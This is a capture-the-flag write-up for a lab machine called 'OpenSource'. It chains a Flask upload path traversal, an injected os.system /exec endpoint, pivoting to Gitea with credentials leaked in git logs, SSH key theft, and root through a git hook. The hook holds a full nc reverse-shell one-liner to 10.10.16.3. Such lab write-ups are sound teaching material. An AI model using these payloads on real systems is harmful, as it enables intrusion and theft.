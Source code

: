 # OpenSource

## Gaining Access

Nmap scan results:

<figure><img src="../../../.gitbook/assets/image (8) (1) (4).png" alt=""><figcaption></figcaption></figure>

Take note of port 3000, it will be important later!&#x20;

### Overwrite for RCE

This website was a file sharing application where we could upload files:

<figure><img src="../../../.gitbook/assets/image (5) (1) (3).png" alt=""><figcaption></figcaption></figure>

Interestingly, we were allowed to download the entire repository here:

<figure><img src="../../../.gitbook/assets/image (9) (2) (4).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (4) (5) (2).png" alt=""><figcaption></figcaption></figure>

The `source.zip` file also contained a `.git` repo that we could analyse later.

Since this looks like a Flask application, we can check the `views.py` file to view the endpoints that are accessible.

```python
import os

from app.utils import get_file_name
from flask import render_template, request, send_file

from app import app


@app.route('/', methods=['GET', 'POST'])
def upload_file():
    if request.method == 'POST':
        f = request.files['file']
        file_name = get_file_name(f.filename)
        file_path = os.path.join(os.getcwd(), "public", "uploads", file_name)
        f.save(file_path)
        return render_template('success.html', file_url=request.host_url + "uploads/" + file_name)
    return render_template('upload.html')


@app.route('/uploads/<path:path>')
def send_report(path):
    path = get_file_name(path)
    return send_file(os.path.join(os.getcwd(), "public", "uploads", path))
```

So this program would get a file via POST, and then upload it to the `uploads/` directory. The problem is, the `file_name` parameter is unsanitised, meaning that we could potentially use this to **overwrite the existing files**. With this knowledge, what we can do is add some more code to this views.py.

In this case, we can add an `/exec` endpoint who's function is to execute commands we send:

```python
@app.route('/exec')
def runcmd():
    return os.system(request.args.get('cmd'))
```

Then, we can attempt to upload this file onto the server. We would need to intercept the response and change the file name to `../../app/app/views.py`. Since the filename is simply appended at the back of `uploads/`, this would cause the new file to be put at `uploads/../../app/views.py`. The directories are based on the source code I downloaded.

When we intercept and change the name of the file, we would be able to access our new endpoint. We can confirm RCE through a simple ping command:

<figure><img src="../../../.gitbook/assets/image (36) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (10) (1) (1) (3).png" alt=""><figcaption></figcaption></figure>

Then, we can gain a reverse shell via the `mkfifo` command into a Docker Container.

<figure><img src="../../../.gitbook/assets/image (61) (2).png" alt=""><figcaption></figcaption></figure>

## Docker Escape

Within this container, we can see other foreign addresses that are around:

<figure><img src="../../../.gitbook/assets/image (11) (1) (1) (3).png" alt=""><figcaption></figcaption></figure>

172.17.0.1 was another address that was present on the host.

### .git Analysis

I couldn't find much from the container, so I went ahead with enumerating the git repository in hopes of finding some passwords when scanning through the logs.

By using `git log`, I was able to find some credentials for anotehr application elsewhere.

<figure><img src="../../../.gitbook/assets/image (38) (3).png" alt=""><figcaption></figcaption></figure>

Earlier, we found port 3000 to be inaccessible from our host. From the docker however, it could be accessed. I downloaded `chisel` onto the container and forwarded port 3000.&#x20;

### Gitea&#x20;

When this port was accessed, it was a Gitea instance:

<figure><img src="../../../.gitbook/assets/image (57) (2).png" alt=""><figcaption></figcaption></figure>

Signing into Gitea with the credentials we found earlier works.

<figure><img src="../../../.gitbook/assets/image (1) (1) (8).png" alt=""><figcaption></figcaption></figure>

Notice that there's a home-backup repo, and within it are the user's SSH keys:

<figure><img src="../../../.gitbook/assets/image (13) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can then the SSH keys to gain access to the `dev01` user.

## Privilege Escalation

LinPEAS didn't reveal a lot to me, so I opted for `pspy64` to view the processes.

<figure><img src="../../../.gitbook/assets/image (40) (3).png" alt=""><figcaption></figcaption></figure>

I saw this process run by root:

<figure><img src="../../../.gitbook/assets/image (3) (1) (5).png" alt=""><figcaption></figcaption></figure>

Every minute or so, it seems that this git repository is being updated on the Gitea instance. Based on GTFOBins, **git hooks** can be abused here to execute any script we want.

### Git Hooks Abuse

To abuse this, first we need to create a quick script for a reverse shell.&#x20;

```bash
#!/bin/bash

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1 | nc 10.10.16.3 4444 > /tmp/f
```

Afterwards, we just need to name this script `pre-commit` and place it within the `~/.git/hooks` folder.

<figure><img src="../../../.gitbook/assets/image (17) (4) (1).png" alt=""><figcaption></figcaption></figure>

After a few minutes, a listener port should catch a shell:

<figure><img src="../../../.gitbook/assets/image (86) (1).png" alt=""><figcaption></figcaption></figure>
